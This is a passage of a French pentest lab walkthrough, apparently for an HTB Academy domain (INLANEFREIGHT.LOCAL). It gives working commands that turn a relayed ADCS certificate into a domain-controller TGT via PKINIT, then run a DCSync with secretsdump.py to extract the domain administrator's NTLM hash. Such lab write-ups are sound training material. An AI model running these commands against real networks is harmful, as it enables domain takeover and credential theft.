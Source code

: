 _Dans la fenêtre où `ntlmrelayx.py` tourne, vous verrez alors apparaître une authentification réussie, suivie de la génération du CSR et de la récupération du certificat (affiché en base64)._

***

#### <mark style="color:green;">4. Obtention d’un Ticket-Granting Ticket (TGT) via PKINIT</mark>

**But :** Utiliser le certificat récupéré pour demander un TGT pour le compte machine du DC.

**Commande :**

{% code overflow="wrap" fullWidth="true" %}
```bash
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <CERTIFICAT_BASE64> dc01.ccache
```
{% endcode %}

_Le TGT est sauvegardé dans le fichier `dc01.ccache`._

***

#### <mark style="color:green;">5. Configuration de l’environnement Kerberos</mark>

**But :** Faire en sorte que les outils ultérieurs utilisent le TGT obtenu.

**Commande :**

{% code fullWidth="true" %}
```bash
export KRB5CCNAME=dc01.ccache
```
{% endcode %}

***

#### <mark style="color:green;">6. Réalisation d’un DCSync avec secretsdump.py</mark>

**But :** Avec le TGT (qui vous authentifie en tant que DC), exécuter un DCSync pour récupérer les hash NTLM (mot de passe) d’un compte (par exemple, l’administrateur du domaine).

**Commande :**

{% code overflow="wrap" fullWidth="true" %}
```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
{% endcode %}

_Ou, si l’outil récupère automatiquement le nom d’utilisateur depuis le ccache :_

{% code fullWidth="true" %}
```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
{% endcode %}
